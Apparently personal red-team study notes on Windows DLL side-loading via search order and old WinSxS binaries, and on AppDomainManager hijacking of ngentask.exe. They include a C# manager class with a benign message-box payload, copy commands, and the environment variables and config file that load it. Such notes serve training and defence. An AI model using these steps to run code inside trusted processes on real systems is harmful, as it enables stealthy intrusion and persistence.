



## DLL side-loading

this abusees the windows dll search order when an application attempts to load its dependencies : 


* The directory the application is in.

* The system directory, typically `C:\Windows\System32`.

* The 16-bit system directory, typically `C:\Windows\System`.

* The Windows directory, typically `C:\Windows`.

* The current working directory.

* The directories that are listed in the `PATH` environment variable.


Use `Process Monitor` to find hijack oppor : path ends **.dll**  and result is **Name NOT FOUND**


WinSxS (`C:\Windows\WinSxS`) stores multiple versions of Windows components and DLLs to maintain application compatibility. Old, vulnerable versions may remain after updates, making them potential DLL side-loading targets.


example of executing old and new version ( the search for certain dll is not the same )


**to search for older versions**

`PS C:\Users\Attacker> ls -Path C:\Windows\WinSxS -Recurse -Filter ngentask.exe | Select -expand FullName
`







## AppDomainManager

there is a way to load DLLs regardless of the search order in windows ( can be utilised for apps writeen in .NET core 3.1 as we can inject a .NET backdoor to execute before the entrypont of the application )

write a class that inherits from `AppDomainManager` ( .NET FRAMEWORK ) and compile it to a .NET DLL 

EXAMPLE :


```
using System;
using System.Windows.Forms;

namespace AppDomainHijack;

public sealed class DomainManager : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
        MessageBox.Show("Hello World", "Success");
    }
}
```


it needs to be on the same directory as the .NET app that we want to hijack example ( in the ngentask.exe)


```
PS C:\Users\Attacker> cp C:\Windows\WinSxS\amd64_netfx4-ngentask_exe_b03f5f7f11d50a3a_4.0.15805.0_none_d4039dd5692796db\ngentask.exe ngentask.exe
PS C:\Users\Attacker> cp C:\Tools\AppDomainHijack\bin\Debug\AppDomainHijack.dll domainManager.dll
```


it can be loaded  in two ways : 

* via two env variables `APPDOMAIN_MANAGER_ASM` and `APPDOMAIN_MANAGER_TYPE` and the just execute the **.exe**


```
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_ASM = 'AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null'
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_TYPE = 'AppDomainHijack.DomainManager'
```



* second method is to use the two envs  in a conf file  `ngentask.exe.config`


```
<configuration>
   <runtime>
      <appDomainManagerAssembly value="AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />  
      <appDomainManagerType value="AppDomainHijack.DomainManager" />  
   </runtime>
</configuration>
```


## Windows Installer


